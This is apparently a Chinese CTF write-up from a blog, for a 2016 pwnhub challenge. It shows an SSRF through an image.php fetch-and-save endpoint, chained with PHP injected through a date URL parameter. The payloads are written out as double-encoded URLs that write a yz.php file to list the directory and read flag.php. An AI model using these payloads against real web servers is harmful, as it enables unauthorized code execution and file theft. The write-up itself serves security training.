 ```yaml
---
title: pwnhub——胖哈勃外传-第一集 writeup
tags: [write-up]
date: 2016-12-18 00:10
---
```

第一步 查找漏洞查看漏洞  找了半天发现 源码中有一部分如下图   点击出现console.log('logo.jpg update sucess!')查看http://54.223.2
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><h1 id="第一步-查找漏洞">第一步 查找漏洞</h1>
<p>查看漏洞 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20161217234634686?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
找了半天发现 源码中有一部分如下图</br></img></br></p>
<pre class="prettyprint"><code class=" hljs xml">   <span class="hljs-tag">&lt;<span class="hljs-title">script</span> <span class="hljs-attribute">src</span>=<span class="hljs-value">"http://54.223.231.220/image.php?file=http://127.0.0.1:8888/test.png&amp;path=logo.jpg"</span>&gt;</span><span class="javascript"></span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span></code></pre>
<p>点击出现</p>
<pre class="prettyprint"><code class=" hljs rust">console.<span class="hljs-keyword">log</span>(<span class="hljs-string">'logo.jpg update sucess!'</span>)
查看http:<span class="hljs-comment">//54.223.231.220/logo.jpg发现二维码</span>
说明url将<span class="hljs-number">127.0</span>.<span class="hljs-number">0.1</span>:<span class="hljs-number">8888</span>/test.png二维码存至logo.jpg下
典型的csrf跨站点请求访问</code></pre>
<p>下面就要利用这个漏洞了</p>
<h1 id="第二步-再查找漏洞">第二步 再查找漏洞</h1>
<p>我们发现</p>
<pre class="prettyprint"><code class=" hljs xml">   <span class="hljs-tag">&lt;<span class="hljs-title">script</span> <span class="hljs-attribute">src</span>=<span class="hljs-value">"http://54.223.231.220/image.php?file=http://127.0.0.1:8888/test.png&amp;path=logo.jpg"</span>&gt;</span><span class="javascript"></span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span></code></pre>
<p>没有什么利用的价值，我们容易伪造请求 <br>
那么继续找漏洞</br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver"><span class="hljs-keyword">http</span>://<span class="hljs-number">54.223</span><span class="hljs-number">.231</span><span class="hljs-number">.220</span>/?<span class="hljs-built_in">date</span>/<span class="hljs-number">2016</span>-<span class="hljs-number">07</span>/</code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20161217235328575?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
我们将url改为 <br>
<a href="http://54.223.231.220/?date/2016-07%3Cb%3Eyz%3C/b%3E/">http://54.223.231.220/?date/2016-07%3Cb%3Eyz%3C/b%3E/</a> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20161217235702327?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
至此 ，我们可以伪造请求了</br></img></br></br></br></img></p>
<h1 id="第三步-伪造请求">第三步 伪造请求</h1>
<pre class="prettyprint"><code class=" hljs perl">http:<span class="hljs-regexp">//</span><span class="hljs-number">54.223</span>.<span class="hljs-number">231.220</span>/image.php?file=http:<span class="hljs-regexp">//</span><span class="hljs-number">127.0</span>.<span class="hljs-number">0</span>.<span class="hljs-number">1</span>:<span class="hljs-number">8888</span>/?date/<span class="hljs-number">2016</span>-<span class="hljs-number">07</span>&lt;?php <span class="hljs-keyword">foreach</span>(<span class="hljs-keyword">glob</span>(<span class="hljs-string">"./<span class="hljs-variable">*"</span>) as <span class="hljs-variable">$i</span>) {echo <span class="hljs-variable">$i</span>;}?&gt;/&amp;path=yz.php
//注意二次编码为
http://54.223.231.220/image.php?file=http://127.0.0.1:8888/?date/2016-07<span class="hljs-variable">%253c</span><span class="hljs-variable">%253fphp</span><span class="hljs-variable">%2520foreach</span>(glob(<span class="hljs-variable">%2522</span>.<span class="hljs-variable">%252f</span><span class="hljs-variable">*%</span>2522)<span class="hljs-variable">%2520as</span><span class="hljs-variable">%2520</span><span class="hljs-variable">%2524i</span>)<span class="hljs-variable">%2520</span><span class="hljs-variable">%257becho</span><span class="hljs-variable">%2520</span><span class="hljs-variable">%2524i</span><span class="hljs-variable">%253b</span><span class="hljs-variable">%257d</span><span class="hljs-variable">%253f</span><span class="hljs-variable">%253e</span>/&amp;path=yz.php</span></code></pre>
<p>得到 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20161218000419329?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
发现flag.php <br>
现在把他读出来</br></br></img></br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver"><span class="hljs-keyword">http</span>://<span class="hljs-number">54.223</span><span class="hljs-number">.231</span><span class="hljs-number">.220</span>/image.php?<span class="hljs-built_in">file</span>=<span class="hljs-keyword">http</span>://<span class="hljs-number">127.0</span><span class="hljs-number">.0</span><span class="hljs-number">.1</span>:<span class="hljs-number">8888</span>/?<span class="hljs-built_in">date</span>/<span class="hljs-number">2016</span>-<span class="hljs-number">07</span><span class="hljs-preprocessor">&lt;?</span>php echo file_get_contents(<span class="hljs-string">'flag.php'</span>)<span class="hljs-preprocessor">?&gt;</span>/&amp;path=yz.php
二次编码为
<span class="hljs-keyword">http</span>://<span class="hljs-number">54.223</span><span class="hljs-number">.231</span><span class="hljs-number">.220</span>/image.php?<span class="hljs-built_in">file</span>=<span class="hljs-keyword">http</span>://<span class="hljs-number">127.0</span><span class="hljs-number">.0</span><span class="hljs-number">.1</span>:<span class="hljs-number">8888</span>/?<span class="hljs-built_in">date</span>/<span class="hljs-number">2016</span>-<span class="hljs-number">07</span>%<span class="hljs-number">253</span>c%<span class="hljs-number">253</span>fphp%<span class="hljs-number">2</span>becho%<span class="hljs-number">2</span>bfile_get_contents(%<span class="hljs-number">2527</span>flag.php%<span class="hljs-number">2527</span>)%<span class="hljs-number">253</span>f%<span class="hljs-number">253</span>e/&amp;path=yz.php</code></pre>
<p>得到 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20161218000938154?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p></div>